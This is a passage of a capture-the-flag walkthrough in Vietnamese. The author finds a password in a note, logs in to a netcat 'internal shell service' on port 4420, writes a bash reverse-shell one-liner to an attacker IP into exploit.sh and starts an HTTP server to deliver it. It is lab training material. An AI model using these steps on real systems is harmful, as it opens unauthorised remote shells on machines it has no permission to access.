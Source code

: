 `note.txt`

```python
┌──(kali㉿kali)-[~]
└─$ cat note.txt 
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
                    
┌──(kali㉿kali)-[~]
└─$ 
```

Sau khi tìm hiểu 1 chút thì tôi biết được port 4420 với service nvm-express hay còn gọi là NVMe là 1 chuẩn giao tiếp cho ổ cứng SSD. Sử dụng `netcat` để kết nối đến port này

`nc 10.10.107.28 4420`

```python
┌──(kali㉿kali)-[~]
└─$ nc 10.10.107.28 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls
bin
etc
home
lib
lib64
opt
tmp
usr
```

Shell này khó dùng quá. Tuy nhiên sau khi tìm kiếm xung quanh 1 lúc thì tôi tìm thấy `wget` trong thư mục */usr/bin*

Điều này có nghĩa là tôi có thể tải lên tệp bằng wget. Vậy thì tôi sẽ tạo 1 file sh chứa RCE và đẩy nó lên machine

```python
┌──(kali㉿kali)-[~]
└─$ echo "bash -i >& /dev/tcp/10.6.0.191/9001 0>&1" > exploit.sh   
```

Tạo local http server 

```python
┌──(kali㉿kali)-[~]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
